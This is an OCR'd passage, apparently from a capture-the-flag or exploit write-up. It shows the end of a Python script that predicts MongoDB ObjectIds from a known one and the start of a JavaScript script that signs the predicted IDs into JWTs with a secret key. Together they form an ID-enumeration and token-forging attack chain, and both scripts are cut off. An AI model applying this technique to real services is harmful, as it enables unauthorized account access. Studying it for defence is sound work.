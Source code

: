 ```

parser.add_argument("--output", type=str, default="output.txt", help="File to write the predicted ObjectIds (default: output.txt)")

  

args = parser.parse_args()

  

try:

with open(args.output, 'w') as f:

for obj_id in predict(args.objectid, args.backward, args.counter_diff, args.per_counter):

f.write(obj_id + '\n')

print(f"Results written to {args.output}")

except Exception as e:

print(f"Error: {e}", file=sys.stderr)

sys.exit(1)

  
  

if __name__ == '__main__':

main()
```

That predicts the possible object Id's and puts them in output.txt

To run:

```
python3 final.py <mongo-object-id-here>
```

Then this javascript script (convert-ids-to-jwt.js) converts the:

```
const fs = require('fs');

const jwt = require('jsonwebtoken');

  

// Replace with your secret key

const SECRET_KEY = 'your-very-secure-secret';

  

const inputFile = 'output.txt'; // Your input file with ObjectIDs

const outputFile = 'tokens.txt'; // Output file for JWTs

  

// Read the ObjectIDs from file (assuming one per line)

const objectIds = fs.readFileSync(inputFile, 'utf-8')
```